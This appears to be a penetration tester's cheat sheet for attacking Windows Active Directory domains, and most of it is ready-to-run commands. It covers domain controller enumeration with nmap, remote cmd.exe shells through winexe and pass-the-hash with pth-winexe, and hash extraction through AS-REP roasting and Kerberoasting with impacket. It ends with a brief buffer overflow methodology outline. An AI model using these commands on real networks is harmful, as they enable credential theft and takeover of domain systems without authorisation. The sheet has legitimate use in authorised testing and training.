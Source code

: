 
**Enumeration**

Enumerate with `nmap nse` to find additional information.

```bash
sudo nmap -n -Pn -sT -T4 -p T:88,389,464,636,3268,3269,9389 -sC -sV -oA recon/nmap-${IP}-tcp-domain ${IP}
```

```text

```


**Access**

If credentials are known,

```bash
DOMAIN="" USER="" PASS="" HASH="" ; winexe -U ${DOMAIN}/${USER}%${PASS} //${IP} cmd.exe
```

```bash
DOMAIN="" USER="" PASS="" HASH="" ; pth-winexe -U ${DOMAIN}/${USER}%${HASH} //${IP} cmd.exe
DOMAIN="" USER="" PASS="" HASH="" ; pth-winexe -U ${USER}%${HASH} //${IP} cmd.exe
DOMAIN="" USER="" PASS="" HASH="" ; pth-winexe --system -U "administrator%${HASH}" //${IP} cmd.exe
```

```text

```


**AS-REP Roasting** (users with kerberos pre-authentication disabled)

```bash
DOMAIN="" ; impacket-GetNPUsers ${DOMAIN}/ -usersfile users -outputfile hash -format hashcat
DOMAIN="" ; impacket-GetNPUsers ${DOMAIN}/ -usersfile users -no-pass -dc-ip ${IP} -format hashcat
DOMAIN="" USER="" ; impacket-GetNPUsers ${DOMAIN}/${USER} -no-pass -dc-ip ${IP} -format hashcat
DOMAIN="" ; impacket-GetNPUsers -dc-ip ${IP} -request ${DOMAIN}/
```

```text

```


Request `TGT` for service accounts to get all hashes.

```bash
DOMAIN="" USER="" HASH="" ; impacket-GetUserSPNs ${DOMAIN}/${USER} -hashes ${HASH} -dc-ip ${IP} -request -outputfile hashes.kerberoast
DOMAIN="" USER="" PASS="" ; impacket-GetUserSPNs ${DOMAIN}/${USER}:${PASS} -dc-ip ${IP} -request
```

```text

```


#### Buffer Overflow

**General Methodology**
> Fuzzing - Force buffer overflow.
> Find Offset - Position of overflow.
> Validate control of EIP.
> Find available offset for payload.
> Find Bad characters.
> Find Return address.
